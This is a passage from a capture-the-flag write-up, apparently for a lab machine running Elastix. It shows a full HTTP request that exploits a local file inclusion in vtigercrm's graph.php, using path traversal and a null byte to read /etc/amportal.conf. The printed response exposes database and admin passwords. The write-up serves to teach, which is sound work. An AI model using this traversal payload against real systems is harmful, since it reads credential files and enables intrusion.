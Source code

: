 ```
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                           | php/webapps/18650.py
--------------------------------------------------------------------------------- ---------------------------------
```

## User
### Method 1 - php/webapps/37637.pl and Password Reuse
Using 37637.pl, we can simply open burp and perform the following request:
```
GET /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action HTTP/1.1
Host: 10.10.10.7
Cookie: elastixSession=3oqenhc7bvtjcid4iuqpag7341; PHPSESSID=3bb02vcbjco3ntj9odbumor1o4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```
as a response we can see that we can access a local system file, exploiting a LFI, in fact as a response, we do get: (TL;DR most of the commented line has been removed)
```
HTTP/1.1 200 OK
Date: Mon, 01 Nov 2021 19:23:56 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 13779

AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

AMPBIN=/var/lib/asterisk/bin
AMPSBIN=/usr/local/sbin

AMPWEBROOT=/var/www/html
AMPCGIBIN=/var/www/cgi-bin

FOPWEBROOT=/var/www/html/panel
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE

ARI_ADMIN_USERNAME=admin

ARI_ADMIN_PASSWORD=jEhdIekWmdjE

AUTHTYPE=database

```